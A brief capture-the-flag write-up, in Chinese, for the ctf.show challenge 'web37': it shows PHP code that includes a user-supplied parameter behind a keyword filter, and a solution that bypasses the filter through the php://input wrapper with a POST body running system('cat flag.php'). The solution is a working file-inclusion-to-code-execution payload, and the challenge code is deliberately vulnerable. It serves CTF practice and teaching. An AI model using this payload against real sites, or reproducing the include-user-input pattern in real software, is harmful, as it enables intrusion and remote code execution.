

# web37

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;

    }

}else{
    highlight_file(__FILE__);
}
```

那么直接 include flag.php 即可

但是由于有 `flag` 关键词拦截，可以考虑通过伪协议传入

```plaintext
https://fce6f17c-9649-48f2-8533-e6e13d87dfe3.challenge.ctf.show/c=php:input

POST: <?php system("cat flag.php"); ?>
```


